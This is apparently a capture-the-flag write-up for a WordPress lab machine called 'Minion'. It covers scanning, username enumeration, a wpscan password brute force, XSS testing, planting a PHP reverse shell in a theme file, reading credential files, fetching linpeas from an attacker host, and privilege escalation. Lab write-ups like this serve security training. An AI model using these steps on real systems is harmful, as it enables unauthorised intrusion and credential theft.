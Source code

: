# Minion

## Setup

* Add minion.thm to /etc/hosts: `sudo nano /etc/hosts` Add in `<TARGETIP> minion.thm` as a new line in the file

> \>! spoiler





!\[\[Pasted image 20220923065821.png]]

* Optional: I like to add the save the target IP as a variable TGT which can be used in commands and save having to type it out each time. Also makes copying commands from my notes a lot easier.

!\[\[Pasted image 20220923065906.png]]

## 1. Recon and Enumeration

### 1a. nmap

Use nmap tool to start to built up a picture of what is running on the machine: Note: $TGT sudo nmap -A -T4 -p- $TGT Options explained: -A runs Version detection as well as default set of scripts -T4 is the timing template to use (0: slowest, 5: quickest) -p- scan all ports Nmap results: !\[\[Pasted image 20220923070212.png]]

Points of interest from results: Web service running on port 80: Apache 2.4.41 robots.txt file WordPress 6.0.2 /wp-admin/ (admin page?)

## 1b. View website

We can navigate to the website in browser either using the target IP `http://<TGTIP>` or by using the hostname we saved in /etc/hosts `http://minion.thm`

Loading up the website we are shown our first flag !\[\[Pasted image 20220921072832.png]]

From here I generally will browse the website as a user would (alongside viewing page sources and keeping our nmap scan results in mind) to get an idea of the websites functionality and purpose before using enumeration tools

Following the link to the Flag 1 post there is a mention of the author "minion" !\[\[Pasted image 20220923070049.png]]

There is also a comment section at the bottom of the page. I made note of this incase it could be used in the exploitation phase for possible XSS. http://minion.thm/2022/09/18/flag1/

I did not find any more interesting pages browsing through the site so will move on at this point.

Our nmap results showed from the robots.txt file that /wp-login/ is to be ignored by web crawlers. This is sometimes a clue for where to find sensitive information on websites so it is worth taking note. robots.txt can be viewed in the browser or using commands such as curl and is often worth checking out.

!\[\[Pasted image 20220921073901.png]] One extra piece of information we can gather from viewing robot.txt is that the site appears to be running PHP.

We can view the disallowed page by navigating to it directly in the browser where we find we get redirected to a login page !\[\[Pasted image 20220921074117.png]]

## 2. Exploitation

Comments Section I first looked to see if the comments section was vulnerable to XSS by adding a test comment !\[\[Pasted image 20220921122515.png]] !\[\[Pasted image 20220921122530.png]] HTML tags got removed in preview. Comment is awaiting approval

Login page To see how the page responds to input we can try credentials we do not think will work test:test !\[\[Pasted image 20220921122821.png]]

Error shows no username "test" registered. This is a useful error message compared to a typical "user and/or password incorrect" seen on most site as we can identify if a username is valid without knowing the password.

We can try common usernames (root, admin) and we also can try 'minion' (the author of the flag post)

Entering Minion gives a different error message that the password is incorrect but confirms the username exists

!\[\[Pasted image 20220923070812.png]]

Brute force login with WPSCAN http://minion.thm/wp-login.php

Using our found valid username "minion" we can try to brute force the login. Originally I tried with max-threads set to 40 but it was timing out and eventually got the command to work at 5, which is the default amount if the options is not used.

wpscan --url http://minion.thm/wp-login.php --usernames minion --passwords /usr/share/wordlists/rockyou.txt --max-threads 5 !\[\[Pasted image 20220921133836.png]] Password successfully found minion : yellow

```bash
// Some code
```

## 3. Post Compromise Enumeration

### 3a Wordpress User Compromise

Comment awaiting approval !\[\[Pasted image 20220921133914.png]]

Sample page XSS Once comments are approved XSS is found to be working

alert('XSS');

!\[\[Pasted image 20220921134352.png]]

!\[\[Pasted image 20220921134339.png]]

As we know the site runs PHP my focus turned to finding somewhere that a PHP shell could be upladed to.

Originally I tried in the uplaod media section but .php extensions are not allowed and file signatures are checked as renaming the extension is still found to be invalid.

From previous experience I have known there to be .php files in the theme files so I looked in here. The theme in use contained .html files, however other themes were available and browsing to TWENTY TWENTY-ONE theme found the desired .php extension filenames.

!\[\[Pasted image 20220923070956.png]]

!\[\[Pasted image 20220923071045.png]]

I decided to use the 404 file as it can reliably be called upon by browsing to page that doesn't exist.

I inserted the well known PHP shell from pentestmonkey which can be found at: https://github.com/pentestmonkey/php-reverse-shell changing the ip and port number to match my workstation and the netcat listener I set up choosing a high value port: !\[\[Pasted image 20220923071246.png]] Once the PHP is pasted in and the port and IP values are set appropriately click the update file button underneath to save the changes !\[\[Pasted image 20220923071425.png]]

!\[\[Pasted image 20220923071319.png]]

Now that the PHP shell code exists in the theme we can activate it in the wordpress dashboard !\[\[Pasted image 20220923071549.png]] !\[\[Pasted image 20220923071607.png]] and browse to a URL that will return the 404 code

http://minion.thm/abunchofrandomcaharactersshouldworkaljkdkasdbbb This shoudl cause the page to "hang" as we now have a web shell established as www-data !\[\[Pasted image 20220923071642.png]]

### 3 b. Web Shell

It is not neccessary but makes life a lot easier if you stabalise your shell: Stabalise shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

background the shell using `Ctrl + Z`

```
stty raw -echo; fg
```

This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and `Ctrl + C` to kill processes). It then foregrounds the shell, thus completing the process.

If shell dies and cannot see typed stuff use command `reset`

/etc/passwd !\[\[Pasted image 20220923074813.png]]

ls /home !\[\[Pasted image 20220923074905.png]]

find / -type f -name "Flag\*" 2>/dev/null

!\[\[Pasted image 20220921172623.png]]

wp-config.php !\[\[Pasted image 20220923075130.png]]

## 4 Priv esc

su minion Password reuse

wget 10.14.23.1:8080/linpeas.sh

╔══════════╣ Analyzing Wordpress Files (limit 70) -rw-r--r-- 1 www-data www-data 3194 Sep 18 23:27 /srv/www/wordpress/wp-config.php\
define( 'DB\_NAME', 'wordpress' ); define( 'DB\_USER', 'wordpress' ); define( 'DB\_PASSWORD', 'SuperDuperStrongPasswordThatIsLong' ); define( 'DB\_HOST', 'localhost' );

SUID files sudo -l dont have password

su minion

!\[\[Pasted image 20220923075231.png]] !\[\[Pasted image 20220923075255.png]] sudo -l !\[\[Pasted image 20220923075325.png]]

cat /etc/crontab

priv esc suid

su gru !\[\[Pasted image 20220923075422.png]]

!\[\[Pasted image 20220923075457.png]] GTFO bins

!\[\[Pasted image 20220923075604.png]]

!\[\[Pasted image 20220923075624.png]]
